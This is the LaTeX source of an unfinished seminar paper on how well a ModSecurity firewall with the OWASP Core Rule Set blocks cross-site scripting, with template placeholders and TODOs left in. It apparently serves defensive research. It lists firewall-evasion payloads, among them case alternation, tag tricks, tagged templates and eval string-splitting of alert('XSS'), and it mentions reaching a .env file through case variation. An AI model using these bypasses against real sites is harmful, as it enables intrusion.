% Autor der Vorlage: Dominik Auracher
\documentclass[11pt, bibliography=numbered, headsepline, numbers=withenddot]{scrartcl}

% Paket für Abkürzungsverzeichnis
\usepackage[acronym, automake=delayed, nopostdot]{glossaries}
% Neue Abkürzung definieren (Sortierung egal)
% Aufbau: \newacronym{label-for-the-text}{short-version}{long-version}
\newacronym{owa}{OWA}{Outlook Web App}
\newacronym{test}{TEST}{T E S T}
\newacronym{so}{SO}{SOLUTION}
\newacronym{waf}{WAF}{Web Application Firewall}

\makeglossaries

% Allgemeine Informationen
\renewcommand{\author}{\color{red}Vorname Nachname} % Autor
\newcommand{\jury}{\color{red}Prüfungskomitee} % Prüfungskomitee
\newcommand{\location}{\color{red}München} % Ort, an welchem die Arbeit geschrieben wurde
\newcommand{\matriculationnumber}{\color{red}123456} % Matrikelnummer
\newcommand{\submissiondate}{\color{red}\today} % Datum der Abgabe
\newcommand{\supervisor}{\color{red}Betreuer} % Betreuung
\renewcommand{\title}{\color{red}Titel der Arbeit} % Titel der Arbeit

% Macro für Anführungsstriche
% Verwendung: \quotes{Text} -> Resultat: "Text"
\newcommand{\quotes}[1]{``#1''}

% WICHTIG:
% Bei erstmaliger Einrichtung TeXstudio -> TeXstudio konfigurieren -> Optionen -> Erzeugen -> "Standard Bibliographieprogramm" = "Biber" setzen!
\usepackage[a4paper, left=2.5cm, top=3cm, right=3cm, bottom=2.75cm]{geometry}

% Paket zur eigenen Darstellung der Kopf-/Fußzeilen
\usepackage[automark]{scrlayer-scrpage}
\clearscrheadfoot
\setlength{\headheight}{1.27cm}
\setlength{\footheight}{1.27cm}

% Paket zur Ermittlung der letzten Seite
\usepackage{lastpage}

% Paket für Deutschsprachige Inhalte
\usepackage[english]{babel}
% \usepackage[utf8]{inputenc}
% \usepackage[T1]{fontenc}
\usepackage[babel, german=quotes]{csquotes}

% Paket für Quellcode-Anzeige (auch Inline!)
\usepackage{listings}

% Paket für Auflistungen
\usepackage[inline]{enumitem}

% Paket für Grafiken
\usepackage{graphicx}

% Paket für Farbgebungen
\usepackage{xcolor}

% Quellenverwaltung
\usepackage[backend=biber, style=alphabetic, isbn=false, hyperref=true]{biblatex}
\addbibresource{literature.bib}
%\DeclareFieldFormat*{title}{#1}            % Format for bibliography
\DeclareFieldFormat*{citetitle}{#1}        % Format for citations

% Paket, welches das Jahr zusätzlich in die Fußnote aufnehmen kann
\usepackage{xpatch}
\xapptobibmacro{cite}{\setunit{\nametitledelim}\printfield{year}}{}{}

% Paket und Konfiguration für Zahlen
\usepackage[locale=DE]{siunitx}
\sisetup{per-mode=fraction}

% Paket und Konfiguration für Schriftart
% Zur Verwendung von Arial, TeXstudio konfigurieren: Optionen -> TeXstudio konfigurieren -> Optionen -> Erzeugen -> "Standardcompiler" = "XeLaTeX" setzen!
% \usepackage{fontspec}
% \setmainfont{Arial}
% \setsansfont{Arial}

% Wichtig: Als letztes Paket laden!
\usepackage{hyperref}
\hypersetup{
	colorlinks=false,
	allbordercolors=white
}

% Neu-Definition der Namen
\renewcommand{\sectionautorefname}{Abschnitt}
\renewcommand{\subsectionautorefname}{Abschnitt}
\renewcommand{\subsubsectionautorefname}{Abschnitt}
\renewcommand{\figureautorefname}{Abb.}
\renewcommand{\tableautorefname}{Tab.}
\renewcommand{\listoflofentryname}{Abb.}

% Zeilenabstand einstellen
\renewcommand{\baselinestretch}{1.25}

\begin{document}
	%config
	% code listing config
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\lstdefinestyle{ruleStyle}{
	backgroundcolor=\color{backcolour},
	commentstyle=\color{codegreen},
	keywordstyle=\color{magenta},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurple},
	identifierstyle=\color{blue},
	rulecolor=\color{black},
	basicstyle=\ttfamily,
	breakatwhitespace=false,
	breaklines=true,
	captionpos=b,
	keepspaces=true,
	numbers=left,
	showspaces=false,
	showstringspaces=false,
	showtabs=false,
	tabsize=2,
	frame=single,
	morekeywords={test, do, <file>},
	aboveskip=1\baselineskip,
	escapeinside=\^\^
}

\lstdefinestyle{basicStyle}{
	backgroundcolor=\color{backcolour},
	commentstyle=\color{codegreen},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurple},
	rulecolor=\color{black},
	basicstyle=\ttfamily,
	breakatwhitespace=false,
	breaklines=true,
	captionpos=b,
	keepspaces=true,
	numbers=left,
	showspaces=false,
	showstringspaces=false,
	showtabs=false,
	tabsize=2,
	frame=single,
	aboveskip=1\baselineskip
}


	% Deckblatt
	\begin{titlepage}
	\centering
	
\includegraphics[width=0.8\textwidth]{"General/HDBW_Logo_large.png"}
	\vfill
	{\LARGE\bfseries Seminararbeit\par}
	\vspace{1cm}
	{\Large\bfseries \title\par}
	\vfill
	{\Large vorgelegt von:\par}
	{\Large\bfseries \author\par}
	{\Large (Matrikelnummer: \matriculationnumber)\par}
	\vfill
	\begin{tabular}{ll}
		vorgelegt am: & \submissiondate\\
	\end{tabular}
	\par
	\begin{tabular}{ll}
		Prüfer: & \jury\\
		Betreuung: & \supervisor\\
	\end{tabular}
\end{titlepage}

	\newpage

	% Kopf-/Fußzeilen ab 2. Seite
	\renewcommand*\sectionmarkformat{}% keine Nummerierung im Kopf
	\renewcommand*{\headfont}{\normalfont} % Nicht kursiv	
	\rohead*{
\includegraphics{"General/HDBW_Logo_small.png"}}
	\lofoot*{\scriptsize \submissiondate}
	\rofoot*{\scriptsize Seite \thepage\ von \pageref{LastPage}}
	
	% Eidesstattliche Erklärung
	\lohead*{Eidesstattliche Erklärung}

\section*{Eidesstattliche Erklärung}
\label{sec:Eidesstattliche Erklärung}
Hiermit versichere ich, dass die vorliegende Arbeit ohne Hilfe Dritter und nur mit den angegebenen Quellen und Hilfsmitteln angefertigt wurde. Alle verwendeten Passagen wurden kenntlich gemacht. Diese Arbeit hat in gleicher oder ähnlicher Form noch keiner Prüfungsbehörde vorgelegen.
\newline
\newline
\newline
\newline
\author
\newline
\location, \submissiondate

	\newpage
	
	% Zusammenfassung
	\color{black}
	
	% Kopf-/Fußzeilen ab 4. Seite
	\lohead*{\headmark}
	
	% Inhaltsverzeichnis
	\tableofcontents
	\newpage
	
	% Abkürzungsverzeichnis
	\printglossary[type=\acronymtype,title={Abbreviations},style=tree,nonumberlist]
	
	% Abbildungsverzeichnis
	\listoffigures
	
	% Tabellenverzeichnis
	%\listoftables
	
	% Quellcode-Verzeichnis
	\lstlistoflistings
	\newpage
	
	% --- INHALT ---
	\section{Executive Summary}
asd


	\newpage
	\section{Introduction}
The OWASP Top 10 is a standard awareness document for developers and web application security. It represents a broad consensus about the most critical security risks to web applications. \cite{OWASP/Top10} In the two most recent editions, OWASP Top 10 2017 Edition and OWASP Top 10 2021 Edition, among others, the top 1 security risk is a risk that developers seek to mitigate by employing a web application firewall. \cite{OWASP/Risks2017,OWASP/Risks2021} Injection (OWASP top 1 risk of 2017) vulnerabilities as well as Broken Access Control (OWASP top 1 risk of 2021) vulnerabilities can both be exploited using malicious HTTP requests. \cite{OWASP/Injection,OWASP/BrokenAccessControl}

In a perfect scenario, a web application firewall would filter, detect and block those malicious requests while at the same time allowing standard application traffic to reach the web application. For some web application firewalls, the filtering behaviour can be configured with a set of rules that define which requests are going to be blocked by the firewall. \cite{OWASP/CRS,wargio/naxsiRules,Cisco/SnortRulesDocs}
When employing a web application firewall, it is mandatory to set up the rules in a way where a maximum of potentially malicious requests gets blocked while allowing all intended application traffic. This set up requires a balancing act of indentifying and defining standard request patterns as well as malicious request patterns. Both identification tasks are non trivial. Some web application firewalls come with a standard set of rules that aim to protect a web application from a wide range of attacks while allowing for a minimal rate of false positives. \cite{OWASP/CRS,wargio/naxsiRules,Cisco/SnortRulesDownload}

Antagonist actors aimed at exploiting vulnerabilities of such a protected web application need to try and make their malicious HTTP requests bypass the web application firewall. To bypass a web application firewall, firewall evasion techniques are being used. \cite{HackTricks/WAFBypass} With firewall evasion techniques in mind, the question arises: 
\begin{quote} "How well can web application firewalls in their generic standard configuration protect a web application against targeted malicious requests?" 
\end{quote}
This question will be discussed in more detail first.


	\newpage
	\subsection{Relevance of this work}
Why does one ask this question:
\begin{quote} "How well can web application firewalls in their generic standard configuration protect a web application against targeted malicious requests?" 
\end{quote}
The author of this work believes that this question is always asked by security minded staff in the context of deploying a Web Application. 
For a variety of reasons, such as legal implications or turnover loss, generally institutions deploying applications are considering the possibility of security weaknesses built into their applications. These security weaknesses could allow malicious-minded actors to inflict damage to the application itself or to the systems that are part of the applications network. Weaknesses should be considered when deploying any kind of application. Depending on the implementation details, the attack surface of an application will vary greatly. The attack surface of an isolated, embedded application controlling an electric motor is different to the attack surface of a Web Application that is open to traffic from the Internet. As a result of allowing such traffic, the attack surface of a Web Application is only limited to the ingenuity of an attacker who knows to handle the protocols the Web Application is built upon. Taking a Web Application that provides some services as response to HTTP requests as an example, the response to each request depends solely on the definition the application's engineer provided with the applications source code. If this engineer does not consider every possible request modification, which there are usually many, a possible security weakness could have been put in the applications source code. Attackers actively try to figure out and exploit such weaknesses. More details on Web Applications and security risks will be laid out in the following chapters.

The risk of security weaknesses is inherent to deploying (Web-) applications which are open to traffic from the Internet. The National Institute of Standards and Technology by the U.S. Department of Commerce uses the term "Defense-in-depth" in a multitude of their information security standards. 
Following the idea of defense-in-depth, multiple layers of security measures are applied in a layered manner to achieve security objectives. Attacks that are missed by one of those layers should be caught by another layer. \cite{nist/did}
Under this paradigm, institutions deploying a Web Application are considering deploying a Web Application Firewall as another security layer. As there is not neccessarily staff and budget for an extensive configuration available, to estimate the value in terms of added security while keeping configuration times at a minimum, the question
\begin{quote} "How well can web application firewalls in their generic standard configuration protect a web application against targeted malicious requests?" 
\end{quote}
will be asked.

	\subsection{Overview and Scope}
To answer the afromentioned question, this work aims at evaluating web application firewalls using firewall evasion techniques. Firewall Evasion techniques are used by attackers specifically targeting a Web Application behind a Web Application Firewall. Attackers try to evade detection by using these techniques. 
% Firewall Evasion techniques will be detailed in the further course of this work. 

While malicious request containing payloads without obfuscation are certainly of importance, this work will focus on targeted attacks using payloads that were obscured using Firewall Evasion techniques.
% In Section~\ref{sec:fundamentals}, fundamentals regarding Web Applications, Web Application Security, Web Application Firewalls and Web Application Firewall Evasion will be detailed.
Targeted attacks come in many different forms, one being Cross-site scripting payloads.
With JavaScript being the most used programming language as of 2023 \cite{statista/mostusedlang} and Cross-Site Scripting being a notable weakness linked to Injection vulnerabilities \cite{OWASP/Injection21}, this work focuses on Cross-site Scripting payloads.

Following this, in Section~\ref{sec:firewallevasiontechniques}, Firewall Evasion techniques applicable to Cross-site scripting payloads will be discussed. 
An iterative approach will be developed to try and create bypassing payloads using those evasion techniques to evade the open-source ModSecurity firewall configured to use the OWASP CoreRuleSet in version 4.1. 

Section~\ref{sec:evaluation} and Section~\ref{sec:EvaluationResults} will describe the evaluation methodology and evaluation results. In this context, this work aims at investigating the development steps of bypassing payloads and discussing occuring payload limitations in the context of tested firewall configurations, properties of the Web application to be protected and used firewall evasion techniques. Section~\ref{sec:rulesproposal} will detail proposed rule additions based on found bypassing payloads and effective evasion techniques.

Subsequently, a generic evaluation proposal will be presented and assessed in Section~\ref{sec:proposal}. Finally, this work will be concluded (Section~\ref{sec:conclusion}) and ideas for further reasearch will be proposed (Section~\ref{sec:continuations}). 

In this work, no LLM-based or other machine learning approaches are pursued. Nonetheless, these approaches are promising and will be mentioned in Section~\ref{sec:continuations}.

Initially, in the following section, Section~\ref{sec:fundamentals}, fundamentals regarding Web Applications, Web Application Security, Web Application Firewalls and Web Application Firewall Evasion will be detailed.


	\newpage
	\section{Theoretical fundamentals}
\label{sec:fundamentals}
The context around firewall evasion covers web applications, web application security and common vulnerabilities in web applications. Web application firewalls to protect against the exploitation of vulnerabilities and firewall evasion techniques to bypass web application firewalls.
A subsection devoted to each of these topics is set forth in this chapter.

	\subsection{Web Application}
In the scope of Software, a web application is software that runs in a web browser. 
They allow to access complex functionality without installing or configuring software. 
Web application provide a means for businesses and other institutions or individuals to share information and deliver services remotely and securely. 
Website features like shopping carts, product search and instant messaging are web applications by design. \cite{aws/webapp}
Amazon, providing multiple web applications themselves, describes the typical architecture of a web application as follows: 
\begin{quote}
Web applications have a client-server architecture. 
Their code is divided into two components—client-side scripts and server-side scripts.  


\textbf{Client-side architecture}


The client-side script deals with user interface functionality like buttons and drop-down boxes.
When the end user clicks on the web app link, the web browser loads the client-side script and renders the graphic elements and text for user interaction.
For example, the user can read content, watch videos, or fill out details on a contact form.
Actions like clicking the submit button go to the server as a client request.


\textbf{Server-side architecture}


The server-side script deals with data processing.
The web application server processes the client requests and sends back a response.
The requests are usually for more data or to edit or save new data.
For example, if the user clicks on the Read More button, the web application server will send content back to the user.
If the user clicks the Submit button, the application server will save the user data in the database.
In some cases, the server completes the data request and sends the complete HTML page back to the client.
This is called server side rendering. \cite{aws/webapp}
\end{quote}
{\color{red} Http requests \\ explanation}


With recent developments leading to increased availability and usage of the Internet, the way businesses and institutions are run has been influcenced.
This has led to the widespread adoption of web applications by companies.
Web applications allow businesses to streamline their processes and increase efficiency. \cite{stackpath/webapp}


	\subsection{Web application security and security risks}
According to synopsys, the concept of \quotes{Web Application Security}
\begin{quote}
	involves a collection of security controls engineered into a Web application to protect its assets from potentially malicious agents. Web applications, like all software, inevitably contain defects. Some of these defects constitute actual vulnerabilities that can be exploited, introducing risks to organizations. Web application security defends against such defects. It involves leveraging secure development practices and implementing security measures throughout the software development life cycle (SDLC), ensuring that design-level flaws and implementation-level bugs are addressed.
\end{quote}
Developers and publishers of Web applications are leveraging secure development practices to prevent security risks like those specified in the OWASP Top 10 document.
The OWASP Top 10 standard awareness document for developers and web application security represents a broad consensus about the most critical security risks to web applications.
It includes security risks based on vulnerabilities that could be exploited using malicious HTTP requests.
\cite{OWASP/Top10}

Broken Access Control is the top 1 security risk in the OWASP Top 10 list from 2021.
Broken Access Control enables users to act outside of their intended permissions.
Examples include access to undisclosed information, modification or destruction of data and performing business functions outside the users limits.
OWASP mentiones an attack scenario on an Web application with broken access control where the attacker force browses to target URLs. \cite{OWASP/BrokenAccessControl,OWASP/Risks2021} Force browsing is described by the OWASP Foundation as follows:
\begin{quote}
	Forced browsing is an attack where the aim is to enumerate and access resources that are not referenced by the application, but are still accessible.

	An attacker can use Brute Force techniques to search for unlinked contents in the domain directory, such as temporary directories and files, and old backup and configuration files. These resources may store sensitive information about web applications and operational systems, such as source code, credentials, internal network addressing, and so on, thus being considered a valuable resource for intruders.

	This attack is performed manually when the application index directories and pages are based on number generation or predictable values, or using automated tools for common files and directory names.

	This attack is also known as Predictable Resource Location, File Enumeration, Directory Enumeration, and Resource Enumeration.
	If the target URL corresponds to an admin page, admin privileges should be required to access the page. \cite{OWASP/forcebrowsing}
\end{quote}
If a user without admin privileges can access the page, the access control is broken.

PhpMyAdmin is a Web application that allows users to manage MySQL databases over the web.
In some cases, the user interface of phpMyAdmin can be accessed via the URL \verb|http://servername/phpmyadmin| after publishing the application via a Web server. Single signon authentication is supported by phpWebAdmin. \cite{phpmyadmin/overview,phpmyadmin/quickinstall,ubuntu/phpmyadmin,phpmyadmin/signon}
The interface of phpWebAdmin is intended to be accessed by an administrative audience.
If a user force browses to the specified URL and this page can be accessed by users without administrative privileges through misconfigured single sign on, it is a case of broken access control.
As an additional security control in this case, a Web application firewall could be used to prohibit any access to the URLs containing the path \verb|/phpmyadmin|.
If database administration is usually done locally, this would suffice.
Alternatively, a whitelist of remote addresses allowed to access \verb|/phpmyadmin| could be used in the Web application firewall configuration.

	%{\color{red} maybe add ssrf here: \\ \verb|https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_\%28SSRF\%29/|}

Injection is the top 1 security risk in the OWASP Top 10 list from 2017.
An application is vulnerable to attack when, among others, user-input is incorrectly validated, sanitized or filtered by the application.
The OWASP Foundation mentiones the common weakness CWE-79: \gls{xss} as one of the weaknesses caused by incorrectly neutralized user-controllable input. \cite{OWASP/Risks2017,OWASP/Injection} \gls{xss} vulnerabilities are described in the \gls{cwe} as follows:
\begin{quote}
	Cross-site scripting (XSS) vulnerabilities occur when:

	Untrusted data enters a web application, typically from a web request.
	The web application dynamically generates a web page that contains this untrusted data.
	During page generation, the application does not prevent the data from containing content that is executable by a web browser, such as JavaScript, HTML tags, HTML attributes, mouse events, Flash, ActiveX, etc.
	A victim visits the generated web page through a web browser, which contains malicious script that was injected using the untrusted data.
	Since the script comes from a web page that was sent by the web server, the victim's web browser executes the malicious script in the context of the web server's domain.
	This effectively violates the intention of the web browser's same-origin policy, which states that scripts in one domain should not be able to access resources or run code in a different domain.

	There are three main kinds of XSS:

	\textbf{Type 1: Reflected XSS (or Non-Persistent)} - The server reads data directly from the HTTP request and reflects it back in the HTTP response. Reflected XSS exploits occur when an attacker causes a victim to supply dangerous content to a vulnerable web application, which is then reflected back to the victim and executed by the web browser. The most common mechanism for delivering malicious content is to include it as a parameter in a URL that is posted publicly or e-mailed directly to the victim. URLs constructed in this manner constitute the core of many phishing schemes, whereby an attacker convinces a victim to visit a URL that refers to a vulnerable site. After the site reflects the attacker's content back to the victim, the content is executed by the victim's browser.

	\textbf{Type 2: Stored XSS (or Persistent)} - The application stores dangerous data in a database, message forum, visitor log, or other trusted data store. At a later time, the dangerous data is subsequently read back into the application and included in dynamic content. From an attacker's perspective, the optimal place to inject malicious content is in an area that is displayed to either many users or particularly interesting users. Interesting users typically have elevated privileges in the application or interact with sensitive data that is valuable to the attacker. If one of these users executes malicious content, the attacker may be able to perform privileged operations on behalf of the user or gain access to sensitive data belonging to the user. For example, the attacker might inject XSS into a log message, which might not be handled properly when an administrator views the logs.

	\textbf{Type 0: DOM-Based XSS} - In DOM-based XSS, the client performs the injection of XSS into the page; in the other types, the server performs the injection. DOM-based XSS generally involves server-controlled, trusted script that is sent to the client, such as Javascript that performs sanity checks on a form before the user submits it. If the server-supplied script processes user-supplied data and then injects it back into the web page (such as with dynamic HTML), then DOM-based XSS is possible.

	Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."

	In many cases, the attack can be launched without the victim even being aware of it. Even with careful users, attackers frequently use a variety of methods to encode the malicious portion of the attack, such as URL encoding or Unicode, so the request looks less suspicious. \cite{mitre/XSS}
\end{quote}

As an additional protection mechanism, Web application firewalls can be used to block \gls{xss} payloads in HTTP requests. In Web applications where script code transmission is not part of the business, the rules intended to block requests containing \gls{xss} payloads could be pretty strict.

Cross-site Scripting (XSS) payloads will be the main payloads tested in the proceeding of this work. 
Cross-site Scripting weaknesses represent only a fraction of possible weaknesses in Web applications. Therefore, to achieve a comprehensive understanding of a web applications attack surface, research into further kinds of typical web application weaknesses should be considered.

When employing a Web application firewall as an 'additional protection mechanism', the Defense-in-Depth strategy is followed.
The first layer of defense should be the counter measure inside the Web application, like proper access control and neutralization of user-input. 
An additional layer of defense is then put on top by employing a Web application firewall.
If a misconfigured security control in the Web application failes to correctly handle a specific malicious request, there is a chance that the Web application firewall is configured in a way that detects and blocks the malicious request before it can reach the Web application and cause an incident.
Avoiding security incidents with the Defense-in-Depth strategy corresponds to
\begin{quote}
	the application of multiple countermeasures in a layered or stepwise manner to achieve security objectives. The methodology involves layering heterogeneous security technologies in the common attack vectors to ensure that attacks missed by one technology are caught by another.
\end{quote}
as defined by the National Institute of Standards and Technology (NIST). \cite{nist/did}


	\subsection{Web Application Firewall}
In contrast to network firewalls based on IP packet filtering, which operate on layers 3 and 4, a web application firewall is a firewall acting on the application layer.

Users interact with a Web application using their Web browser.
After instructing the browser to show resources identified by a URI according to the http or https URI Schemes, the Web browser will initiate opening TCP connections to the designated open port on the Web server hosting the Web application.
Usually the well-known default ports 80 for HTTP connections and 443 for HTTPS connections are being used.
The TCP connections are used to transport the datagrams of the HTTP connections on the application layer. \cite{rfc7230}
The Web server and any intermediary gateways inspecting layers 3 and 4 will see open TCP connections initiated from uncontrolled source IP addresses and ports towards the designated destination port and IP address of the Web server.
From the perspective of an IP packet filtering firewall, all requests towards the Web application look similar in this sense.
In this configuration, IP packet filtering firewalls can accomplish tasks like rate limiting of incoming connections, among others.
However, they can not prevent the exploitation of vulnerabilites in the Web application.
Injection vulnerabilities are exploited using HTTP requests with malicious payloads on the application layer.
As the IP packet filter firewall exclusively looks at the packets contents corresponding up to the transport layer (session layer in case a stateful firewall is used), the HTTP payloads from the application layer remains unseen.
To detect and block malicious HTTP requests, a firewall would therefore need to inspect the messages on the application layer. Firewalls inspecting the application layer in a Web application context are called Web application firewalls.

Web application firewalls apply a set of rules to an HTTP conversation.
These rules determine which traffic is malicious and which traffic is safe.
The Web application firewall acts as a reverse proxy, an intermediary between client and server that receives, filters and forwards all incoming and outgoing HTTP messages. \cite{OWASP/waf,f5/waf}

Messages originating from a client are first received by the web application firewall.
At this point, the configured filtering rules are applied and a decision is made if the message is to be forwarded or rejected.
If the message is considered benign, the web application firewall forwards the message to the server hosting the web application.
If the message is considered malicious, the web application rejects the message.
In the case of rejection, the web application will never receive the malicious message and it will stay unaffected by the malicious payload.

HTTP answers originating from a server hosting a web application are also first received by the web application firewall.
There, rules for outgoing HTTP messages are applied.
If the content of an HTTP answer is unusual in comparison to the usual outgoing traffic, a rule might match and deny the client from receiving the HTTP answer.

Configuring the web application firewall with which rules to apply to incoming and outgoing traffic requires a balancing act between security and false positives.
When a genuine HTTP message causes a rule to match, it is described as false positive.
A stricter ruleset provides more security, but the risk of false positives increases as well.
The contributors to the OWASP Core Rule Set, which is a generic rule set used by a web application firewall to protect any web application, provide instructions on false positives:

\begin{quote}
	When a genuine transaction causes a rule from the Core Rule Set to match in error it is described as a false positive. False positives need to be tuned away by writing rule exclusions, [...]

	The Core Rule Set provides generic attack detection capabilities. A fresh CRS deployment has no awareness of the web services that may be running behind it, or the quirks of how those services work. It is possible that genuine transactions may cause some CRS rules to match in error, if the transactions happen to match one of the generic attack behaviors or patterns that are being detected. Such a match is referred to as a false positive, or false alarm. \cite{OWASP/crsfpt}
\end{quote}

Rules can be configured in a blacklisting setting or in a whitelisting setting.
When configuring rules in a whitelisting setting, every possible benign message towards or originating from the Web application needs to be predictable. 
With this prediction of requests, rules are configured in such a way that they match on the predicted messages. 
Then the Web application firewall is configured to deny all messages that do not match on any rule. 
In this setup, the rules act as a whitelist of allowed messages. Unknown and possibly malicious messages are denied by default.
When configuring rules in a blacklisting setting, the setup is reversed. 
An effort is made to predict possible malicious messages towards the Web application as well as uncommon messages originating from the Web application.
Rules are configured to match on these predictions and the Web application firewall is instructed to reject messages that trigger matches on rules. 
In this setup, the rules act as a blacklist of rejected messages. Unknown and possibly benign messages are allowed by default.

Web application firewalls can be deployed network-based in the form of an hardware appliance, cloud-based integrated with virtual cloud networking services and host-based colocated on the servers where the web applications reside. \cite{palo/waf}
An example of a host-based Web application firewall is the open-source Libmodsecurity Web application firewall engine.
It provides the capability to interpret rules written in the ModSecurity SecRules format and apply them to HTTP content provided by an application via connectors.
The library is consumed by these connectors that interface with web servers and provide the library with a commmon format.
The ModSecurity project provides connectors for nginx and apache web servers.
If nginx is compiled and setup with the ModSecurity connector, it can act as a Web application firewall and reverse proxy. \cite{modsec/home, modsec/nginx}
In this configuration, nginx can be setup to listen for HTTP connections on ports 80 and 443.
Once a request is incoming, it will be passed to the Libmodsecurity library for the application of filtering rules.
If no rule(s) match, the request is forwarded to the Web application. The reversed procedure applies for the response, as mentioned earlier.
For usage with the Libmodsecurity Web application firewall engine, the OWASP Foundation provides the open-source OWASP CoreRuleSet:

\begin{quote}
	The OWASP® (Open Worldwide Application Security Project) CRS (Core Rule Set) is a free and open-source collection of rules that work with ModSecurity® and compatible web application firewalls (WAFs). These rules are designed to provide easy to use, generic attack detection capabilities, with a minimum of false positives (false alerts), to web applications as part of a well balanced defense-in-depth solution. \cite{OWASP/crshome}
\end{quote}

{\color{red} TODO: explain rule setup?}

A similar setup Web application firewall configured with the OWASP CoreRuleSet will be evaluated in the further course of this work.

	\subsection{Firewall Evasion}
Firewall evasion (in general) refers to ...

Web application firewall evasion refers to the action of trying to evade the detection of malicious payloads by the WAF. {\color{red} TODO}


	\newpage
	\section{Firewall evasion techniques}

Compatibility with browsers is not being regarded. {\color{red} TODO: check JavaScript versions (ECMA script 6) and write about browser compatibility}
Naturally, when discussing web application firewall evasion, most chosen firewall evasion techniques are covering XSS Payloads.

All techniques are available {\color{red}(at the time of writing)}

\subsection{Various Payloads}

\subsubsection{Payload size}

\subsubsection{Unicode encoding in JSON}
Detected by modsecurity, checked with \u0024 and \u0028

\subsubsection{Case alternation}
In order to evade regex filerting by the WAF, the case of a payload can be alternated. \cite{medium/allypetitt}
Modern regex flavors allow the application of modifiers to parts of the regular expression.
One such modifier is \verb|(?i)|. It makes the regex case insensitive. \cite{regex/jan} Only when this modifier is not used, can a payload evade regex filtering using case alternation. 

Taking the XSS payload \verb|<script>alert('XSS')</script>| as an example, after applying case alternation, it might result in a payload in the form of: \verb|<sCrIpT>alert('XSS')</sCriPt>|.
Another example is file access on a wrongfully public file.
The Windows file system trests file and directory names as case-insensitive by default. \cite{windows/casesensitive}
On a web server hosted on Windows that exposes a .env file with stored secrets, both urls: \\ \verb|http://127.0.0.1:8000/.env| and \verb|http://127.0.0.1:8000/.enV| \\
are treated equally. {\color{blue} verified by the author using the python webserver module on windows 10 [should this be here?]}


\subsection{XSS Payloads}

\subsubsection{Tag modification}
In a case, where regex filters are configured to look for html tags, modifying html tags might make a payload evade the filter. Possible modifications include:
\begin{itemize}
	\item prepending the tag with an additional \verb|<|: \verb|<<script>alert('XSS')</script>|
	\item omitting the closing tag: \verb|<script>alert('XSS')| 
	\item using double open angle brackets: \verb|<iframe src=javascript:alert('XSS') <|
	\item using uncommon tags: \\ \verb|<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE>|
\end{itemize}
Technique by \cite{medium/allypetitt}

\subsubsection{Space replace}
A regex filter that is expecting a space inside a html tag at certain positions can be evaded by replacing the space with a \verb|/|. 
For instance, \verb|<img src=1 onerror=alert('XSS')>| becomes \verb|<img/src=1/onerror=alert('XSS')>|.
Technique by \cite{medium/allypetitt}

\subsubsection{HTML encoding}
see the <a> thing

\subsubsection{String passing}

\subsubsection{Tagged Template Literals}
Tagged Template Literals can be used in JavaScript payloads to avoid detection of JavaScript function calls in an http request. Dr. Alex Rauschmeyer explains Tagged Template Literals in ``Exploring ES6'':
\begin{quotation} Tagged Template Literals are function calls whose parameters are provided via template literals. [...]
	The following is a tagged template literal (short: tagged template):
	\begin{lstlisting}
tagFunction`Hello ${firstName} ${lastName}!`
\end{lstlisting}
	Putting a template literal after an expression triggers a function call, similar to how a parameter list (comma-separated values in parentheses) triggers a function call. The previous code is equivalent to the following function call (in reality, first parameter is more than just an Array, but that is explained later).
	\begin{lstlisting}
tagFunction(['Hello ', ' ', '!'], firstName, lastName)
\end{lstlisting}
	Thus, the name before the content in backticks is the name of a function to call, the tag function.
	\cite{exploringes6/templatelit}
\end{quotation}

As the function \verb|alert| can be called with an array as first parameter, it is possible to substitute the payload with \verb|alert`XSS`|. The substitute payload might evade regex filtering that looks for a function name followed by an opening \verb|(|.
Technique by \cite{onecons/wafbypass}.


\subsubsection{eval() function}
\label{sec:eval}

JavaScript payloads that are being passed in string format can be executed using the eval function. The \verb|eval()| function will evaluate the source string given as an argument and return its completion value. \cite{js/eval}
A possible usecase for \verb|eval()| in the quest to bypass a \gls{waf} is the splitting of function names that would cause a HTTP request to get rejected by the firewall.
Looking at Listing~\ref{lst:alertXSSblocked}, it is clear that the function call \verb|alert('XSS')| is being blocked by the ModSecurity firewall using CRS 4.1.0.
To avoid a match on \verb|alert(|, it is possible to split the function call into parts \verb|al|, \verb|e| and \verb|rt('XSS')| by using string concatenation in the form of \verb|`al` + `e` + `rt('XSS')`|.
Sending the payload in this form will not cause the the desired effect, as a JavaScript interpreter will interpret the payload as a string instead of a function call to the \verb|alert()| function.
Using the \verb|eval()| function in combination with the splitted string solves this problem. Passing the string \verb|`al` + `e` + `rt('XSS')`| in the form of \verb|eval(`al` + `e` + `rt('XSS')`)| as an argument to the \verb|eval()| function will cause the string to be evaluated and interpreted. Technique inspired by \cite{onecons/wafbypass}.
The ModSecurity firewall using CRS 4.1.0. checks for usage of the function \verb|eval()| and tries to block requests containing it. An example is listed in Listing~\ref{lst:evalalertXSSblocked}.

\begin{lstlisting}[style=ruleStyle, language=XML, caption=eval(`al` + `e` + `rt('XSS')`) blocking example, label={lst:evalalertXSSblocked}]
<payload>eval(`al` + `e` + `rt('XSS')`)</payload>
<file>"rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "331"] [id "933160"]<fileDetails>
<MatchedData>"eval(`al`   `e`   `rt('XSS')"</MatchedData>

<file>"rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"eval("</MatchedData>

<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}

\subsubsection{function constructor}
\label{sec:functionconstructor}

